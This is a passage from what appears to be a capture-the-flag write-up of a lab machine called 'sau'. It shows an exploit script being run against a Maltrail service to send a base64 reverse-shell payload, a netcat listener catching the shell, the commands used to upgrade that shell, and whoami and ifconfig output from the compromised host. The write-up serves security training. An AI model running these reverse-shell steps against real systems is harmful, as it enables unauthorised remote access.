 If we have a look at the the exploit we see it creates a reverse shell payload encoded in Base64 and delivers it to the target URL  using a curl command

The target URL is just the basket URL we created previously with the SSRF exploit

```bash
$ python3 exploit.py 10.10.14.192 443 http://10.10.11.224:55555/dvcvja
Running exploit on http://10.10.11.224:55555/dvcvja/login

```

Before runing the exploit, we have to run our listener

```bash
──(root㉿alter)-[/home/alter]
└─# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.192] from (UNKNOWN) [10.10.11.224] 60032
$ 

```
And here there is the revere shell, now as usual,  let's improve it

```bash
$ script /dev/null -c bash
Ctrl+Z, 

stty raw -echo;fg
reset
xterm

```

```bash
puma@sau:/opt/maltrail$ whoami
puma
puma@sau:/opt/maltrail$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.224  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:feb9:d438  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:d438  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:d4:38  txqueuelen 1000  (Ethernet)
        RX packets 517358  bytes 39412852 (39.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 502391  bytes 34726648 (34.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 9166  bytes 537607 (537.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 9166  bytes 537607 (537.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```
